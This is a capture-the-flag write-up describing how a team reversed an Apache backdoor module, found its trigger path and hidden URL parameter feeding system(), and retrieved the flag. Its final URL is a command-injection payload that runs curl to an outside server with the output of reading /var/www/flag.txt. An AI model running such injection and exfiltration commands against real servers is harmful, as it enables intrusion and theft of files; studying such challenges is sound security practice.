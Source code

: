Hello guys ,

So i will explain my team solution for this task 

It was really amazing task because its reverse + web so it need lot of knowledge to solve it

So first we check the task !

![capture d ecran 2017-10-19 a 11 23 25 am](https://user-images.githubusercontent.com/7364615/31766621-fdbd0a96-b4bf-11e7-9d15-05c19c028ec8.png)

Next we have backdoor.so library used with the apache server 

If we need to solve this should first understand the backdoor.so how it works


So it check first for GET\x00ndex.html 

![capture d ecran 2017-10-19 a 11 30 37 am](https://user-images.githubusercontent.com/7364615/31766872-f6d81eea-b4c0-11e7-86ee-08834d0567d4.png)

![capture d ecran 2017-10-19 a 11 31 12 am](https://user-images.githubusercontent.com/7364615/31766893-09930b80-b4c1-11e7-8ee6-dd843d21a15e.png)

OK so we need to send  https://indianer.flatearth.fluxfingers.net//x00ndex.html as first to make it all work 

then there is system function that get argument from url , but its not clear what name is this arg

so we make our prog to get the arg name 

![capture d ecran 2017-10-19 a 11 33 34 am](https://user-images.githubusercontent.com/7364615/31766979-60bdb798-b4c1-11e7-912d-2ab3d29b23aa.png)

and it was "dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp" So this is the second part 

https://indianer.flatearth.fluxfingers.net//x00ndex.html?dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp=

what Next?

first what we tried to do it to understand where the flag will be shown

We tried first simple check like https://indianer.flatearth.fluxfingers.net/index.html_dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp=lsdpdpdpamamamamajvjvjvjvgsgsgsgsgpdp=ls

but for sure no output there :(

After some check we get that the '_' is replaced with ' '

So no need space here 

![capture d ecran 2017-10-19 a 11 37 02 am](https://user-images.githubusercontent.com/7364615/31767126-da3ef960-b4c1-11e7-91e3-776e15b18598.png)

Also flag we be not printed here in the web part 

So if we make the flag redirected  somewhere it maybe will work 

So curl is the best solution , but we figure this out when the ctf already end :( and we didnt get any points for this task

Anyway it was Cool task to improve our skills 

Ok lets continue !

So we need curl? ok so we will send the flag to our server using curl 

So our last solution was to make this request and its work :D 

https://indianer.flatearth.fluxfingers.net//x00ndex.html?dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp=curl_serverip/`cat_/var/www/flag.txt`


![capture d ecran 2017-10-19 a 11 15 22 am](https://user-images.githubusercontent.com/7364615/31767276-57b35d0a-b4c2-11e7-8f09-1a162d4cc949.png)

No points but we did it :D 


Thanks 
